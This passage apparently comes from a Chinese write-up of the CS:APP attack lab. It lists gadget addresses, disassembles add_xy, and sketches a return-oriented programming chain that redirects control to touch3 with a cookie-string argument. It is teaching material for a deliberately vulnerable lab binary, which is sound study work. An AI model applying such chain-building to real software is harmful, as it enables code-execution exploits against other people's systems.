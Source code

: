 根据Writeup给出的指令手册，以下gadget可能有用：

| 首址         | 指令                          |
| ---------- | --------------------------- |
| `0x4019a2` | `mov %rax, %rdi`            |
| `0x4019ab` | `popq %rax`                 |
| `0x4019c5` | `mov %rax, %rdi`            |
| `0x4019cc` | `popq %rax`                 |
| `0x4019dc` | `popq %rsp; mov %eax, %edx` |
| `0x401a06` | `mov %rsp, %rax`            |
| `0x401a13` | `mov %ecx, %esi`            |
| `0x401a27` | `mov %ecx, %esi`            |
| `0x401a34` | `mov %edx, %ecx`            |
| `0x401a3c` | `mov %esp, %eax`            |
| `0x401a42` | `mov %eax, %edx`            |
| `0x401a69` | `mov %edx, %ecx`            |
| `0x401a86` | `mov %esp, %eax`            |
| `0x401aad` | `mov %rsp, %rax`            |

除此之外，gadget farm中有一个别有用意的函数，这使得根据`%rsp`进行相对寻址成为可能：

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

因此我们希望构造下列的伪指令序列，使得控制权转移到`touch3`，同时传参正确：

```assembly
// rsp->rdi
mov %rsp, %rax
mov %rax, %rdi
// OFFSET->rsi
popq %rax
(OFFSET)
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
// rsp+OFFSET->rdi
lea (%rdi,%rsi,1), %rax
mov %rax, %rdi
// call touch3
&touch3
(COOKIE_STRING)
```
